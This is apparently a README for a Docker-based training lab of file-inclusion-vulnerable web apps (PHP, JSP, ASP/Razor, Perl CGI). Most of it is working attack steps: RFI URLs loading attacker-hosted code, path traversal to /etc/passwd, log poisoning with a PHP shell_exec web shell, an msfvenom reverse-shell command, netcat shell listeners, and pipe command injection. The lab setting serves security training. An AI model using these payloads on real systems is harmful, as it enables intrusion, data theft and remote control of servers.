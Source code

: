 # Installation

- Install Docker (verified with version 2.0.0.3)
- If you want to use the windows network on Aa non Windows OS also install [VirtualBox](https://www.virtualbox.org/) 

## Ubuntu

Check if you have docker-machine and docker-compose also installed. 
Notice that if not added to docker group, docker has to be run with sudo.

## Windows

Using [Cmder](https://cmder.net/) on Windows you can run `docker-compose -f lfi_linux_network.yml up --build` to run the linux network. 

# Examples

Note, the reverse shell examples are verified with [Metasploit Version 5.0.37-dev](https://www.metasploit.com/) on [Kali Linux](https://www.kali.org/).

## RFI

For the RFI payloads you have to change the IP to the IP from the internal network in every link. Use `docker inspect <docker_attacker_id>` to get the IP.

## PHP

### RFI 

PoCs RFI:

- [http://127.0.0.1:8883/lfi.php?language=http://google.com?q=](http://127.0.0.1:8883/lfi.php?language=http://google.com?q=)

- [http://127.0.0.1:8883/lfi.php?page=http://textfiles.com](http://127.0.0.1:8883/lfi.php?page=http://textfiles.com)

Code running on the victim server:

- [http://127.0.0.1:8883/lfi.php?page=http://172.18.0.5/run_on_victim.txt](http://127.0.0.1:8883/lfi.php?page=http://172.18.0.5/run_on_victim.txt)

Code running on the attacker server:

- [http://127.0.0.1:8883/lfi.php?page=http://172.18.0.5/run_on_attacker.php](http://127.0.0.1:8883/lfi.php?page=http://172.18.0.5/run_on_attacker.php)

To get reverse shell you can use Metasploit:

`msfvenom -a php --platform php -p php/reverse_perl lhost=172.18.0.5 lport=4444`

### LFI

#### Verification

Upload check.php from attacker-server src folder

then:

- [http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check](http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check) or
- [http://127.0.0.1:8883/lfi.php?language=uploads/check](http://127.0.0.1:8883/lfi.php?language=uploads/check)

#### Exploits

#### etc/passwd

[http://127.0.0.1:8883/lfi.php?page=/etc/passwd](http://127.0.0.1:8883/lfi.php?page=/etc/passwd)

By way of experiment add `../` before `etc/passwd` until ...

[http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd](http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd)

#### Log Injection

Get `access.log`: 

Changed here to `access_combined.log`. The used docker image pipes `access.log` to stdout, so the default log of the apache is know changed. (If somebody knows a way to change `access.log`->`stdout` for this image to write both to stdout and in the file help would be appreciated, please mail me):

[http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log](http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log)

Then use:

```
nc -nv 127.0.0.1 8883
<?php echo shell_exec($_GET['cmd']);?>
```

and

[http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id](http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id)

Check for uid in output

#### Shell

- Upload shell.php
- goto: [http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell](http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell)
- then:

```
docker exec -ti <containerid_attackerserver> /bin/bash
nc 172.18.0.1 4444
```

## JSP

### RFI

- [http://localhost:8881/webapp/?help=http://172.18.0.3:8080/webapp/thiscomesfromhaxxor](http://localhost:8881/webapp/?help=http://172.18.0.3:8080/webapp/thiscomesfromhaxxor)

### LFI

Upload runme.jsp from attacker_server_jsp for Remote Code Execution:

- [http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls](http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls)
- [http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd](http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd)

## ASP / Razor

Use [https://github.com/StefanScherer/windows-docker-machine](https://github.com/StefanScherer/windows-docker-machine) to get a windows docker environment

Upload the files and call:

`SimpleEchopayload.cshtml`

[http://192.168.99.90:8080/?test=SimpleEchoPayload.cshtml](http://192.168.99.90:8080/?test=SimpleEchoPayload.cshtml)

`WinLfiPayload.cshtml`

[http://192.168.99.90:8080/?test=WinLfiPayload.cshtml](http://192.168.99.90:8080/?test=WinLfiPayload.cshtml)

`CheckPowerShell.cshtml`

[http://192.168.99.90:8080/?test=CheckPowerShell.cshtml](http://192.168.99.90:8080/?test=CheckPowerShell.cshtml)

`RevShell.cshtml`, change IP to attacker server ip in the file

nc -nlvp 4444 at attacker server, then:

[http://192.168.99.90:8080/?test=RevShell.cshtml](http://192.168.99.90:8080/?test=RevShell.cshtml)

## CGI / Perl

- /etc/passwd
[http://127.0.0.1:8895/cgi-bin/index.pl?file=/etc/passwd](http://127.0.0.1:8895/cgi-bin/index.pl?file=/etc/passwd)

- Outputs the current server folder:
[http://127.0.0.1:8895/cgi-bin/index.pl?file=ls|](http://127.0.0.1:8895/cgi-bin/index.pl?file=ls|)
